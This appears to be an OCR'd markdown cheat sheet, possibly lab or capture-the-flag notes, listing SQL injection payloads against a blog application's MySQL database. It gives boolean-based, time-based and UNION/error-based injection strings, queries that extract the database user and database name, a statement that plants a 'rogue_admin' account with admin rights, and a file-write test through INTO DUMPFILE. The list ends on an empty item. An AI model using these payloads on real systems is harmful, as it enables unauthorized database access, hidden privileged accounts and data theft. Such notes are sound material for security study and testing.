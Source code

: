 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`

# SQL Queries

1. Boolean-based: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username = 'blogpage_admin') = 'a' %23`

2. Time-based: `' OR IF(SUBSTRING((SELECT username FROM users WHERE username = 'blogpage_admin'), 1, 1) = 'b', SLEEP(1), 0) %23`

3. Error-based: `' union select null, null, null, null, null %23`

# Exploit(error-based)

1. Retrieve user: `' UNION SELECT NULL, user(), NULL, NULL, NULL %23`

2. Retrieve database name: `' UNION SELECT NULL, database(), NULL, NULL, NULL %23`

3. 


